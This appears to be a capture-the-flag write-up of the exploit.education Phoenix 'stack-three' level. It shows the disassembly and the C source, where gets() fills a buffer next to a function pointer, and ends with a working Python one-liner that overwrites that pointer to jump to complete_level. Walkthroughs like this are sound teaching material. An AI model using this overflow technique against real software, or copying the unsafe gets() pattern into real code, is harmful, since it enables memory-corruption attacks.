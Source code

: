 # PHOENIX - stack 3

Lets list the files using ```ls -la``` command,

```
user@phoenix-amd64:~$ ls -la
total 28
drwxr-xr-x 2 user user 4096 Jun  6 04:48 .
drwxr-xr-x 3 root root 4096 Jan 13  2019 ..
-rw-r--r-- 1 user user  220 Jan 13  2019 .bash_logout
-rw-r--r-- 1 user user 3526 Jan 13  2019 .bashrc
-rw-r--r-- 1 user user  675 Jan 13  2019 .profile
-rwxr-xr-x 1 user user 6472 Jun  6 04:48 stack-three
```

Lets check the file type of the binary using ```file``` command,

```
user@phoenix-amd64:~$ file stack-three
stack-three: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /opt/phoenix/x86_64-linux-musl/lib/ld-musl-x86_64.so.1, not stripped
```

It is a ```not stripped``` binary,

Let try running it

```
user@phoenix-amd64:~$ ./stack-three
Welcome to phoenix/stack-three, brought to you by https://exploit.education
monish
function pointer remains unmodified :~( better luck next time!
```

It seems like we have to modify the function pointer in it

Lets analyse it in debugger,

Viewing the functions in it,

```
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x00000000004004b0  _init
0x00000000004004d0  printf@plt
0x00000000004004e0  gets@plt
0x00000000004004f0  puts@plt
0x0000000000400500  fflush@plt
0x0000000000400510  exit@plt
0x0000000000400520  __libc_start_main@plt
0x0000000000400530  _start
0x0000000000400546  _start_c
0x0000000000400570  deregister_tm_clones
0x00000000004005a0  register_tm_clones
0x00000000004005e0  __do_global_dtors_aux
0x0000000000400670  frame_dummy
0x000000000040069d  complete_level
0x00000000004006b5  main
0x0000000000400740  __do_global_ctors_aux
0x0000000000400782  _fini
```

There is an extra function named ```complete_level```,

```
0x000000000040069d  complete_level
```

Now, disassembling ```main()```,

```
pwndbg> disassemble main
Dump of assembler code for function main:
   0x00000000004006b5 <+0>:	  push   rbp
   0x00000000004006b6 <+1>:	  mov    rbp,rsp
   0x00000000004006b9 <+4>:	  sub    rsp,0x60
   0x00000000004006bd <+8>:	  mov    DWORD PTR [rbp-0x54],edi
   0x00000000004006c0 <+11>:	mov    QWORD PTR [rbp-0x60],rsi
   0x00000000004006c4 <+15>:	mov    edi,0x4007d8
   0x00000000004006c9 <+20>:	call   0x4004f0 <puts@plt>
   0x00000000004006ce <+25>:	mov    QWORD PTR [rbp-0x10],0x0
   0x00000000004006d6 <+33>:	lea    rax,[rbp-0x50]
   0x00000000004006da <+37>:	mov    rdi,rax
   0x00000000004006dd <+40>:	call   0x4004e0 <gets@plt>
   0x00000000004006e2 <+45>:	mov    rax,QWORD PTR [rbp-0x10]
   0x00000000004006e6 <+49>:	test   rax,rax
   0x00000000004006e9 <+52>:	je     0x40071d <main+104>
   0x00000000004006eb <+54>:	mov    rax,QWORD PTR [rbp-0x10]
   0x00000000004006ef <+58>:	mov    rsi,rax
   0x00000000004006f2 <+61>:	mov    edi,0x400828
   0x00000000004006f7 <+66>:	mov    eax,0x0
   0x00000000004006fc <+71>:	call   0x4004d0 <printf@plt>
   0x0000000000400701 <+76>:	mov    rax,QWORD PTR [rip+0x200418]        # 0x600b20 <stdout>
   0x0000000000400708 <+83>:	mov    rdi,rax
   0x000000000040070b <+86>:	call   0x400500 <fflush@plt>
   0x0000000000400710 <+91>:	mov    rdx,QWORD PTR [rbp-0x10]
   0x0000000000400714 <+95>:	mov    eax,0x0
   0x0000000000400719 <+100>:	call   rdx
   0x000000000040071b <+102>:	jmp    0x400727 <main+114>
   0x000000000040071d <+104>:	mov    edi,0x400848
   0x0000000000400722 <+109>:	call   0x4004f0 <puts@plt>
   0x0000000000400727 <+114>:	mov    edi,0x0
   0x000000000040072c <+119>:	call   0x400510 <exit@plt>
End of assembler dump.
```

Disassembling ```complete_level()```,

```
pwndbg> disassemble complete_level
Dump of assembler code for function complete_level:
   0x000000000040069d <+0>:	  push   rbp
   0x000000000040069e <+1>:	  mov    rbp,rsp
   0x00000000004006a1 <+4>:	  mov    edi,0x400790
   0x00000000004006a6 <+9>:	  call   0x4004f0 <puts@plt>
   0x00000000004006ab <+14>:	mov    edi,0x0
   0x00000000004006b0 <+19>:	call   0x400510 <exit@plt>
End of assembler dump.
```

Lets view the source code for better understanding,

```
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }

  exit(0);
}
```

Here we are using the pointer ```volatile int (*fp)();``` to call the ```complete_level()```

```
if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }
```

If we write any value in ```locals.fp```, our program assumes it as a function address and it tries to call it

If it is a valid function address it displays the correct result, else it displays a ```segmentation fault```

When we try to overwrite ```fp``` with random data,it gives ```segmentation fault``` because the function in ```fp``` address does not exist

```
user@phoenix-amd64:~$ python -c "print('A'*64+'BBBB')"|./stack-three
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x42424242
Segmentation fault
```

If we pass the address of ```complete_level()``` in ```fp``` it executes correctly,

```
user@phoenix-amd64:~$ python -c "print('A'*64+'\x9d\x06\x40')"|./stack-three
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!
```

Done! we have completed "stack-three"

